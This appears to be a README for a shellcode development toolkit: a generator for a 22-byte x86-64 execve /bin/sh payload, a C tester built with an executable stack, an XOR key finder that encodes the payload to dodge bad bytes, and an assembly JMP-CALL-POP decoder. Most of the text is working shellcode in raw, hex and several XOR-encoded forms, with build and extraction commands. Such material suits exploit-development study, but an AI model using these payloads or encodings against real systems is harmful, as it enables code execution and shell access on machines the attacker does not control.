 # Usage

## The shellcode python generator

It uses the simplest "execve /bin/sh" shellcode by default

```bash
python3 generate_shellcode.py

Shellcode: b'1\xf6VH\xbb/bin//shST_\xf7\xee\xb0;\x0f\x05'
Shellcode HEX: 31f65648bb2f62696e2f2f736853545ff7eeb03b0f05
Raw Shellcode: \x31\xf6\x56\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xf7\xee\xb0\x3b\x0f\x05
Shellcode Length: 22 bytes
```

## The C payload tester

### Compilation
`gcc -o test_payload test_payload.c -z execstack`

### Run
```bash
./test_payload               

$ id
uid=1000(xtk)...
```

## The XOR key finder

This script helps to avoid specified badbytes by static XOR key encoding. 
It looks for appropriate XOR key to fit specified badbytes

### Usage

```bash
$ python3 xor_key_finder.py

Found valid XOR key: 0x0d
Encoded shellcode:
\x3c\xfb\x5b\x45\xb6\x22\x6f\x64\x63\x22\x22\x7e\x65\x5e\x59\x52\xfa\xe3\xbd\x36\x02\x08
0x3c,0xfb,0x5b,0x45,0xb6,0x22,0x6f,0x64,0x63,0x22,0x22,0x7e,0x65,0x5e,0x59,0x52,0xfa,0xe3,0xbd,0x36,0x02,0x08
3cfb5b45b6226f646322227e655e5952fae3bd360208
...
Found valid XOR key: 0xaa
Encoded shellcode:
\x9b\x5c\xfc\xe2\x11\x85\xc8\xc3\xc4\x85\x85\xd9\xc2\xf9\xfe\xf5\x5d\x44\x1a\x91\xa5\xaf
0x9b,0x5c,0xfc,0xe2,0x11,0x85,0xc8,0xc3,0xc4,0x85,0x85,0xd9,0xc2,0xf9,0xfe,0xf5,0x5d,0x44,0x1a,0x91,0xa5,0xaf
9b5cfce21185c8c3c48585d9c2f9fef55d441a91a5af
...
```

### ASM XOR payload decoder

This assembly decodes XOR endcoded shellcode and uses JMP-CALL-POP technique to dynamically find the address of the payload in a position-independent manner, ensuring the decoder works regardless of where the code is loaded in memory.

### Usage

```bash
nasm -f elf64 -o shellcode.o shellcode.asm
ld -o shellcode shellcode.o
```

Let's get the RAW payload using:
```bash
objdump -d shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

